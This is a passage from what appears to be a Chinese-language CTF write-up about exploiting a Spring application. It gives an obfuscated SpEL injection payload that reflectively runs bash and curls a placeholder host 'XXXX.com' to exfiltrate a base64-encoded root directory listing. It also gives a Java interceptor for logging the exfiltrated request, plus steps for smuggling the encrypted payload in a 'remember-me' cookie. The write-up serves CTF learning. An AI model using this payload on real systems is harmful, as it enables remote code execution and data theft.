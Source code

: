 ```java
"#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"/bin/bash\",\"-c\",\"curl XXXX.com/`cd / && ls|base64|tr '\\n' '-'`\"})}"
```

上面payload采用网页请求传值，后面的值进行了base64转码，以防url出现问题，于是我们要自己构造一个web端，让平台来请求我们的web，在这里我就地，把这题加了一个中心拦截器，并打印网页请求url。

```java
package ctf.xg.challenge;

import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/**
 * @author gkirito
 */
public class RequestLog extends HandlerInterceptorAdapter {

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler)
            throws Exception {
        String ip = request.getRemoteAddr();
        String url = request.getRequestURI();
        System.out.println("用户:" + ip + ",访问目标:" + url + "\n");
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler,
                           ModelAndView modelAndView) throws Exception {

    }
}
```

然后把把这个项目部署起来，再对上面payload调用`encrypt`函数进行加密，得到加密后的密文，放入cookie的`remember-me`中

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540892546064.jpg)

项目部署完别忘记url后面加上自己的端口

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540896076722.jpg)

得到访问的base64值

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540897506329.jpg)
